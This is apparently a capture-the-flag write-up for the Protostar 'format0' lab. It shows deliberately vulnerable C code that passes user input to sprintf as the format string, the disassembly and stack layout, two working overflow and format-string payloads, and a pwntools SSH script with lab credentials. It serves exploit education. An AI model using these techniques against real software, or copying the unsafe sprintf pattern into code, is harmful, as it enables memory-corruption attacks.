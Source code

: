 # Format 0


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Goal: overwrite the content of the target variable with 0xdeadbeef

sprintf is a libc function , very similar to printf because we can use format 
specifier. sprintf will store the output in the first argument whereas printf will output the result in
the standard output.


ex: 
```c
char ptr_buff[]="Jeyanthan !!!!";
char buffer[255];
sprintf(buffer, "Hello %s", ptr_buff);
printf("buffer: %s\n",buffer);
```
This will output:  Hello Jeyanthan !!!!

In our case we want to overwrite the content of **target**, so potentially we can overflow **buffer** and 
then overflow **target** .


# static analysis: 

```asm
0x080483f4 <vuln+0>:	push   ebp
0x080483f5 <vuln+1>:	mov    ebp,esp
0x080483f7 <vuln+3>:	sub    esp,0x68
0x080483fa <vuln+6>:	mov    DWORD PTR [ebp-0xc],0x0  <-- 'target' is at ebp-0xc
0x08048401 <vuln+13>:	mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:	mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:	lea    eax,[ebp-0x4c]  <-- eax points on buffer (ebp-0x4c)
0x0804840b <vuln+23>:	mov    DWORD PTR [esp],eax   
0x0804840e <vuln+26>:	call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:	mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:	cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:	jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:	mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:	call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:	leave  
0x0804842a <vuln+54>:	ret 

```

The stack looks like this : 



```
|  -----------------
|    Seip
|  -----------------
|   Sebp 
|  ----------------- 
|                    
|  ----------------- ebp-0x4
|
|  ----------------- ebp-0x8
|    TARGET
|  ----------------- ebp-0xc
|      ....... 
|  
|  -----------------
|
|    BUFFER
|  ----------------- ebp-0x4c
|
|
v

```

We need : 
(ebp-0x4c) +  ?? = (ebp-0xc)
<=> -0xc + 0x4c = 64 

We need to fill 'buffer' with 64 bytes and overwrite the next 4 bytes with 0xdeadbeef

# payload 1:

```bash
user@protostar:~$ /opt/protostar/bin/format0 $(python -c "print 'A'*64 + '\xef\xbe\xad\xde'")
you have hit the target correctly :)

```


An other way to exploit it is to use format specifier 


# payload 2: 

```bash
user@protostar:~$ /opt/protostar/bin/format0 `echo -e "%64x\xef\xbe\xad\xde"`
you have hit the target correctly :)

```

%64x will padd with 64 caracters (spaces + what is found on the stack in hex) in buffer
ex:
```c
#include <stdio.h>

int main(){

    printf("%64xHello");
}

Output: 
                                                        ffffd134Hello
----------------------------------------------------------------|  after 64 bytes Hello




```

It's not mandatory to use %x. 
We can use other specifier for the padding like %d,%c ...

# solution with pwntools :

```python
from pwn import *


r = ssh(host="192.168.160.128" , user="user", password="user")

payload = b"%64x" + p32(0xdeadbeef)

prg = r.run(['/opt/protostar/bin/format0', payload])
print(prg.recv())

```